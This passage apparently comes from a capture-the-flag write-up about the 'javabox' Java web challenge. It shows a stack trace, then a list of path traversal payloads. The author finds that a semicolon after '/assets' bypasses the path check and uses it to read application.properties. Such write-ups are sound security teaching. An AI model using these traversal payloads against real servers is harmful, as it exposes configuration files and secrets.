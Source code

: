 ```
java.lang.StringIndexOutOfBoundsException: begin 8, end 7, length 7\n\tat java.base/java.lang.String.checkBoundsBeginEnd(String.java:4601)\n\tat java.base/java.lang.String.substring(String.java:2704)\n\tat java.base/java.lang.String.substring(String.java:2677)\n\tat com.cyberjawara.chall.web.javabox.controller.MainController.getAssetFile(MainController.java:91)\n\tat jdk.internal.reflect.GeneratedMethodAccessor4.invoke(Unknown Source)\n\tat java.base/jdk...
```

Hmmm, interesting error. The substring method must be validating the path, so we tried a few classic path traversal payloads like dot dot slash:

```
/assets/../box.jpg
/assets/..\box.jpg
/assets/%2e%2e%2fbox.jpg
//assets
/assets//../box.jpg
//assets/../box.jpg
dll
```

After reading some articles, we found that a semicolon (`;`) can sometimes affect the path. Testing it gave some interesting results:

```
/assets -> error StringIndexOutOfBoundsException
/assets/ -> error getResourceAsStream
```

Adding a semicolon after "assets" changed things:

```
/assets; -> error getResourceAsStream
```

Huh? Instead of throwing `StringIndexOutOfBoundsException` error, we got `getResourceAsStream`. And then I tried few more things

```
/assets;box.jpg -> Works
/assets;../assets/box.jpg -> Works!!
```

Looks like we have path traversal! To confirm, we tried reading the `application.properties` file, and yep, it worked.

![application.properties](images/application-properties.png)
